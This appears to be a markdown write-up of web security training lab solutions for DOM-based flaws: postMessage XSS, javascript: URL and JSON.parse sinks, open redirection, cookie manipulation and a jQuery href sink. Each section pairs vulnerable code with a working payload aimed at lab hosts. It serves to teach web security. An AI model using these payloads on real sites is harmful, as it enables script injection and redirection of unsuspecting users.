 # DOM-based Vulnerability

### DOM XSS using web messages
* Vulnerable Code - `addEventListener()` listens for a web message
```html
<!-- Ads to be inserted here -->
<div id='ads'>
</div>
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```
* Payload - By adding a wrong `src` and `enerror=` function will cause `print()`
```html
<iframe src="https://ac7e1f1c1f3ed2d1c06281a0005800be.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

### DOM XSS using web messages and a JavaScript URL
* Vulnerable Code - `indexOf` looks for http: or https: in the message body
```html
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```
* Payload
```html
<iframe src="https://acf31f5e1e1ff65ec0851f1800fc00fa.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">
```

### DOM XSS using web messages and JSON.parse
* Vulnerable Code - `JSON.parse` parse the message data.
```html
<script>
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
</script>
```
* Payload
```html
<iframe src="https://acbe1f971f2cee6bc0482be200600037.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

### DOM-based open redirection
* Vulnerable Code
```html
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```
* Payload
```html
### Visit the following URL. The vulnerable code will read the value of url= and redirect the user to the following url when "Back to Blog" is clicked:

https://acaa1f4e1f5e9aa7c0c6e265002f004c.web-security-academy.net/post?postId=4&url=https://exploit-ac4f1f6d1f429a0dc0e4e2eb018e0096.web-security-academy.net/ 
```

### DOM-based cookie manipulation
* Payload
```html
<iframe src="https://acb61f151e1962a8c0e21111007b00ff.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://acb61f151e1962a8c0e21111007b00ffweb-security-academy.net';window.x=1;"> 
```

### DOM XSS in jQuery anchor href attribute sink using location.search source
* Vulnerable Code - We can inject JavaScript with `returnPath` parameter, and it will be added as a value to `attr()` attrobite. 
```html
<script>
    $(function() {
        $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
    });
</script>
```
* Payload
```html
https://acae1faa1ef8845fc0303f5900250072.web-security-academy.net/feedback?returnPath=javascript:alert(document.domain)
```

